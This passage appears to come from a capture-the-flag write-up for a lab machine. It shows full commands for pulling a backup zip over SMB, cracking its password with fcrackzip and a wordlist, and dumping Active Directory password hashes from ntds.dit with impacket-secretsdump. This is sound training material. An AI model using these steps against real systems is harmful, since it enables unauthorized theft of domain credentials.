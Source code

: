 <br />
<img src="{{ site.img_path }}/apt_writeup/APT_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With `smbclient` I have problems when trying to download the file, I had already experienced this problem on a previous machine, I think it is due to the size. So just by [adding some parameters I can download it](https://unix.stackexchange.com/questions/31900/smbclient-alternative-for-large-files){:target="_blank"}, if I analyze it with `file` I confirm that it is a compressed file but I need a password if I try to extract the data with `unzip`. So I can use `fcrackzip` to crack it (**once installed of course**) and after waiting only a few seconds I get what I need. Once the files are unzipped I find that they correspond to the memory password hashes dump, but since they correspond to an **Active Directory** I will need **SYSTEM** and **ntds.dit** to [get the hashes with `impacket-secretsdump`](https://book.hacktricks.xyz/windows-hardening/stealing-credentials){:target="_blank"}.

> **NTDS** (**Windows NT Directory Services**) is the directory services used by **Microsoft Windows NT** to locate, manage, and organize network resources. The **NTDS.dit** file is a database that stores the **Active Directory** data (including users, groups, security descriptors and password hashes).

> Impacket's **secretsdump.py** will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading **SAM** and **LSA secrets** from registries, dumping **NTLM** hashes, plaintext credentials, and **kerberos** keys, and dumping **NTDS**.

```bash
smbclient //localhost/backup -N
    > dir
    # --> backup
    > get backup
    # --> parallel_read returned NT_STATUS_IO_TIMEOUT           Size?

smbclient //dead:beef::b885:d62a:d679:573f/backup -N -m SMB2 -c 'timeout 120; iosize 16384; get backup.zip'
file backup.zip
# --> Zip archive data
unzip backup.zip                                                        # Password?
sudo apt search fcrackzip
sudo apt install fcrackzip
fcrackzip -b -D -u -p /usr/share/wordlists/rockyou.txt backup.zip       # :)
#    --> iloveyousomuch

# Or can use too:
# zip2john backup.zip

impacket-secretsdump --help
#    --> -system SYSTEM        SYSTEM hive to parse
#    --> -ntds NTDS            NTDS.DIT file to parse
#    --> LOCAL (if you want to parse local files)

impacket-secretsdump LOCAL -ntds Active\ Directory/ntds.dit -system registry/SYSTEM
```
